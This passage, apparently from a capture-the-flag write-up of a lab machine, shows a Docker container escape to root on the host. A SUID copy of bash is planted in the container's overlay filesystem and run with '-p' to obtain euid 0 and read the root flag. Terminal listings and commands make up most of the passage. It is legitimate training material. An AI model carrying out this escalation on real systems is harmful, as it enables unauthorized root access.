marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp$ ll
total 1004
drwxrwxrwt 1 root     root       4096 May  1 11:25 ./
drwxr-xr-x 1 root     root       4096 Mar 21 10:49 ../
-rwxr-xr-x 1 www-data www-data 827827 Nov 27 09:47 linpeas.sh*
-rw------- 1 www-data www-data   1381 May  1 11:21 sess_087527abee32fd097aa02b65e2a817f5
-rw------- 1 www-data www-data      0 May  1 10:58 sess_0884f94921e049da57b32d1c947d6a27
-rw------- 1 www-data www-data   1931 Apr 30 15:03 sess_0c69a2bde63a7ab86e46e1cef18a6290
-rw------- 1 www-data www-data      0 Apr 30 21:36 sess_0f768dc44e3cdae160f9db3e64114826
-rw------- 1 www-data www-data   1444 May  1 08:42 sess_13767e301d59e876d45c4569a25fe3ec
-rw------- 1 www-data www-data   1444 Apr 30 21:36 sess_1ce308516c2444b74c105adfb8c22daa
-rw------- 1 www-data www-data   1444 Apr 30 15:05 sess_22fde9df9ef5bfbbee6129a2a55e609b
-rw------- 1 www-data www-data   1444 Apr 30 19:51 sess_24223a9e4ce92d00421cb8a7952528b9
-rw------- 1 www-data www-data   1381 Apr 30 19:51 sess_26fb851f3394f329db5e774a29b9575e
-rw------- 1 www-data www-data   1493 Apr 30 15:05 sess_2aff586e3db19927fbd1aaefd95155f8
-rw------- 1 www-data www-data   1493 Apr 30 15:24 sess_3304be73c178af91c67c77f768ba78b4
-rw------- 1 www-data www-data   1444 Apr 30 15:05 sess_363af84d86b3619a7355fe0eabf25c65
-rw------- 1 www-data www-data   1444 May  1 11:21 sess_3bec47cf08195f791a721c78ddf3564d
-rw------- 1 www-data www-data   1444 May  1 08:42 sess_49e05701b9a35a797241bdacbfc4d207
-rw------- 1 www-data www-data   1444 May  1 11:21 sess_50ded4785685439cfa4c03f2c47315ea
-rw------- 1 www-data www-data      0 May  1 11:21 sess_51d05f4556c295c9a84aa518e6a22c4a
-rw------- 1 www-data www-data   1296 Apr 30 15:02 sess_588200c1844986e45ce519cf559cf925
-rw------- 1 www-data www-data   1444 May  1 10:58 sess_5acee4be2ee9ce089219dc95753af867
-rw------- 1 www-data www-data   1444 May  1 10:58 sess_669a329fdb296e62e6fe61e24a01a78f
-rw------- 1 www-data www-data   1444 Apr 30 21:36 sess_6c391ee7eb1ea2a1e86d99bf642e2b6d
-rw------- 1 www-data www-data   1493 May  1 10:58 sess_6d8b5a2dfb533b9a206cbd7d2c7a69d2
-rw------- 1 www-data www-data   1381 Apr 30 21:36 sess_6e55bd574011f45327b3765c686db06c
-rw------- 1 www-data www-data   1444 May  1 08:42 sess_737f29a508e797784444fcabd57fda15
-rw------- 1 www-data www-data   1444 May  1 10:58 sess_767c04f991a671f50f48fbdb39e196aa
-rw------- 1 www-data www-data   1444 Apr 30 15:05 sess_792e4f32455677a86256a57a8220b2ba
-rw------- 1 www-data www-data      0 Apr 30 19:51 sess_795d19b56ea897e9ba986bb156833b21
-rw------- 1 www-data www-data   1444 May  1 08:42 sess_7ac454622f772705471c6dc5f6668a8a
-rw------- 1 www-data www-data   1381 May  1 10:58 sess_8021a1c61abc42b211d5b88f28eac8e3
-rw------- 1 www-data www-data   1444 Apr 30 21:36 sess_817b6f79671f69e454b98f759e080c73
-rw------- 1 www-data www-data   1444 May  1 10:58 sess_81967f8c87944207e6d3998a5fdfbb2a
-rw------- 1 www-data www-data   1444 May  1 11:21 sess_8c1f857e7d783bfda8126d21d51177cc
-rw------- 1 www-data www-data   1444 May  1 11:21 sess_922e779964dd305c673012b01bdb0f8b
-rw------- 1 www-data www-data      0 May  1 08:42 sess_9369a03995c14f428221afa239fca221
-rw------- 1 www-data www-data   1444 Apr 30 19:51 sess_9d4a564b704a28c8ef77c81ada981824
-rw------- 1 www-data www-data   1444 Apr 30 15:05 sess_a4b8d020e70ed27ec9f2fda0d4d49376
-rw------- 1 www-data www-data   1444 May  1 11:21 sess_a8744dfda8a4b7c6596e704c2f896596
-rw------- 1 www-data www-data   1493 May  1 08:42 sess_af805d2e2dd1ed469dfc485a18e2aba7
-rw------- 1 www-data www-data   1444 Apr 30 15:05 sess_b07aaba56643f4186a38f0c8514ae596
-rw------- 1 www-data www-data   1493 Apr 30 19:51 sess_b2340f4413835ee06893efd03f6911ba
-rw------- 1 www-data www-data   1381 May  1 08:42 sess_bad4441363924d5aa75dfed4568eb00d
-rw------- 1 www-data www-data   1444 Apr 30 21:36 sess_bd038959c8bc7e44aea62d2a5fbe6406
-rw------- 1 www-data www-data   1444 May  1 10:58 sess_bdcf4636d042d1b5a5e2b89f4f53a949
-rw------- 1 www-data www-data   1444 Apr 30 19:51 sess_c555c6d40f29efddfe0157c8dd94a118
-rw------- 1 www-data www-data   1444 May  1 08:42 sess_cddb8eda54409e32c808ce76bd15caee
-rw------- 1 www-data www-data   1493 Apr 30 21:36 sess_cf0ff576e442fe466d19c043db975227
-rw------- 1 www-data www-data   1863 Apr 30 15:04 sess_cffa5d1af38914dc94ffced21d27e4c1
-rw------- 1 www-data www-data   1493 May  1 11:21 sess_d0ac10abce62a4e800809d2558cd8c40
-rw------- 1 www-data www-data   1381 Apr 30 15:05 sess_d8cb4bd0123ab255366c1515b9e65c68
-rw------- 1 www-data www-data   1444 Apr 30 19:51 sess_ddcad730d8b7fae4ae463aa3a80368f0
-rw------- 1 www-data www-data   1444 Apr 30 19:51 sess_e2de9beac18ea9ed7a156be674365060
-rw------- 1 www-data www-data   1444 Apr 30 21:36 sess_fa03c885b5ac97819f07fb2f8a1820ac
-rw-r--r-- 1 root     root          0 May  1 11:25 test.txt
```

Good the test.txt is there even on the Host side. Now we have basically to follow that we were trying to do yesterday:



So here i will not put all the details since it's already done previously on the guide:

1.  Copy /bin/bash from the host to that overlay fs path with RW and no "nosuid"
2.  Change root:root owner in container
3.  Add suid and 777 on bash file in container

Profit:

```Bash
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp$ ll
total 2160
drwxrwxrwt 1 root     root        4096 May  1 11:26 ./
drwxr-xr-x 1 root     root        4096 Mar 21 10:49 ../
-rwsrwxrwx 1 root     root     1183448 May  1 11:26 bash*
-rwxr-xr-x 1 www-data www-data  827827 Nov 27 09:47 linpeas.sh*


marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp$ ./bash -p
bash-5.0# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) groups=1000(marcus)
bash-5.0# cd /root
bash-5.0# ls
cacti  root.txt
bash-5.0# cat root.txt
```